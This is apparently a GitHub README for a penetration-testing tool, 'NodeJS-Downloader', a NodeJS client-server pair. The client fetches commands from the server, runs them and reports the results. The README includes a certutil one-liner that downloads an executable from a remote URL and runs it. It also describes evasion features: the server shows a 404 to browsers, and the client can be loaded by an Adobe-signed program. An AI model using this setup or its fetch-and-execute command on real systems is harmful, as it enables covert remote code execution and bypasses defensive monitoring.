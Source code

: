 # NodeJS-Downloader
An example of a downloader written in NodeJS.

Author:3gstudent

#### Usage:

1. Download the NodeJS:

https://nodejs.org/en/download/

You just need node.exe in the file.

2. Set the command sent to the client:

Edit the Server.js

eg.

`var command = 'certutil -urlcache -split -f https://github.com/3gstudent/test/raw/master/putty.exe c:\\a.exe&&c:\\a.exe';`

Note:

More ways to download & execution：

[《渗透技巧——从github下载文件的多种方法》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8Egithub%E4%B8%8B%E8%BD%BD%E6%96%87%E4%BB%B6%E7%9A%84%E5%A4%9A%E7%A7%8D%E6%96%B9%E6%B3%95/)


3. Start the server

```
node.exe Server.js
```

When you use a browser to access it, it will return 404.

4. Start the client

```
node.exe Client.js
```

It will connect to the server and get the command, then execute the command and send the result again.

Client.js can be loaded by a program with a digital signature of Adobe Systems Incorporated.

![Alt text](https://github.com/3gstudent/NodeJS-Downloader/blob/master/1.png?raw=true)

Reference:

https://bbs.pediy.com/thread-249573.htm


More details:

《渗透测试中的Node.js》[Coming soon]
